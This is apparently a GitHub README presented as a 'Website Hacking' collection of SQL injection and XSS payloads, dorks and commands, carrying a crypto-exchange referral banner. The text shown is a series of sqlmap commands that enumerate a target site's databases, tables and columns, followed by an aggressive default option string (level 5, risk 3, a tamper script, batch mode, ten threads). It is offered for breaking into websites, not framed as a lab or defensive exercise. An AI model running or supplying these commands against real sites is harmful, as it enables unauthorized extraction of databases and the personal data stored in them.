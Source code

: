 <p align="center">
  <a href="https://www.gate.io/ref/3301721" target="_blank"><img width="480" height="150" src="https://media.giphy.com/media/r5PH7oEtPW7hCnZiWN/giphy.gif"> CryptoERA
</p>

# <p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p> SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

<p align="center">
  <a href="https://sqlmap.org/" target="_blank"> SQLMAP Download
</p>

### Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' --dbms='BaseName' -D name.db --tables

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables --columns

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep
